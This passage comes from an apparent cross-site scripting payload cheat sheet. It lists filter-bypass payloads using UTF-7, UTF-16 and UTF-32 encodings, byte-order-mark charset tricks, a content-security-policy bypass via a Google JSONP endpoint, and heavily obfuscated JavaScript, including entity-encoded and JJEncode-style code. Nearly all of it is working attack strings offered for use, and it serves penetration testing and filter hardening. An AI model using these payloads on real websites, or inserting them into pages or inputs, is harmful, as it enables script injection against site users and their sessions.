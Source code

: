 Bypass using UTF-7

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

Bypass using BOM - Byte Order Mark (The page must begin with the BOM character.)
BOM character allows you to override charset of the page

```js
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

Bypass CSP using JSONP from Google (Trick by [@apfeifer27](https://twitter.com/apfeifer27))
//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

Bypass using weird encoding or native interpretation to hide the payload (alert())

```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```